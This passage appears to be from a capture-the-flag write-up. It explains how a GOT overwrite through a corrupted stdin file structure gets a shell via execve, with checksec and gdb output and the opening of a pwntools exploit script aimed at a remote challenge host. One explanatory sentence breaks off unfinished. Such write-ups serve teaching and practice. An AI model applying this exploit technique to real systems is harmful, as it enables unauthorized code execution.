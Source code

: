 ```sh
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
So the GOT table is an attack vector. But which function's GOT entry should we overwrite with `system` ?. We don't control the first argument of any of the imported libc functions used in the binary and nothing much can be done with an `8-byte write`. We have to find a way to extend the write primitive. One idea was to overwrite `fflush` with the arbitrary write code path `0x400A31`, so every time `fflush` is called we get an arbitrary write. This didn't work as expected as `scanf` and `printf` crashed due to unaligned stack. 

## Exploit technique to get the shell
We have the addresses of the file structure's of `stdin`, `stdout` and `stderr` in the bss section. Leak the address of `stdin` and overwrite `stdin->_IO_buf_base` with an address above GOT table. So in the next call to `scanf` we have large write to the GOT table.
We have to call `execve("/bin/sh",0,0)` and **not** system("/bin/sh") as system tries 
 After `scanf`, `fflush(stdout)` is called so we overwrite the GOT entry of `fflush` with `init_proc+21` and also overwrite `stdout` with pointer to "/bin/sh" in bss.

```bash
gdb-peda$ pd init_proc
Dump of assembler code for function init_proc:
   0x000000000040089b <+0>: push   rbp
   0x000000000040089c <+1>: mov    rbp,rsp
   0x000000000040089f <+4>: mov    rax,QWORD PTR [rip+0x2007ea]        # 0x601090 <stdin@@GLIBC_2.2.5>
   0x00000000004008a6 <+11>:    mov    ecx,0x0
   0x00000000004008ab <+16>:    mov    edx,0x2
   0x00000000004008b0 <+21>:    mov    esi,0x0
   0x00000000004008b5 <+26>:    mov    rdi,rax
   0x00000000004008b8 <+29>:    call   0x400750 <setvbuf@plt>
   0x00000000004008bd <+34>:    mov    rax,QWORD PTR [rip+0x2007bc]        # 0x601080 <stdout@@GLIBC_2.2.5>
   0x00000000004008c4 <+41>:    mov    ecx,0x0
```

Why call `init_proc`?  Within `init_proc`, `setvbuf` is called,  which we overwrite with `execve`. At `flush(stdout)` first argument is a pointer to "/bin/sh" and the 3rd argument is a pointer to NULL, and jumping to `init_proc+21` sets the 2nd argument as NULL.

`execve` is successfully called with all arguments set.


Final exploit :
```python
from pwn import *

s=remote("138.68.67.161", 20004)

def leak(addr,size=8):
    s.sendlineafter(" >",str(1))
    s.sendlineafter(" [#] Enter Where: ",str(addr))
    s.recvline()
    val =  s.recv(size)
    return val

def write(where,what,val = 0):
    if (val == 1):
        s.sendlineafter(" >",str(3))
    else:
        s.sendlineafter(" >",str(2))
    s.sendlineafter(" [#] Enter Where: ",str(where))
```